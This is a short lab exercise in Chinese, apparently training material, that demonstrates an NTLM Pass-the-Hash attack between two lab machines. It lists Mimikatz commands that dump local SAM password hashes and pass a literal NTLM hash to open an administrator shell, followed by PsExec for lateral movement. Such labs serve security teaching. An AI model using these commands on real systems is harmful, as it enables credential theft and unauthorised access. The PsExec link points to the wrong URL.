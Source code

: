 # Exercise 2 - NTLM and Pass-the-Hash

## Tools

需要工具(attacker-tools2)

- Mimikatz: [https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz)
- PSExec: [http://live.sysinternals.com/](https://github.com/gentilkiwi/mimikatz)

## Exercise

本練習中，我們將針對不同電腦間(ad-00、ad-01)相同本機管理員(administrator)的使用者，實作Pass-the-Hash的攻擊，由於ad-00以及ad-01在安裝時administrator的密碼相同，所以攻擊會成立。

- 使用最高權限打開mimikatz

```
cd C:\attacker-tools
.\mimikatz_trunk\x64\mimikatz.exe
```

使用mimikatz 取得 local user的password hash

```
privilege::debug
token::elevate
lsadump::sam
```

- 使用mimikatz的PTH模組，開啟一個local admin account的shell
    - 預設安裝的administrator

```
sekurlsa::pth /user:Administrator /ntlm:7dfa0531d73101ca080c7379a9bff1c7 /domain:doesnotmatter
```

- 使用psexec連線ad-01

```
cd C:\attacker-tools
.\PsExec64.exe \\ad-01 cmd
```

確認是否成功連線ad-01

```
whoami
hostname
```
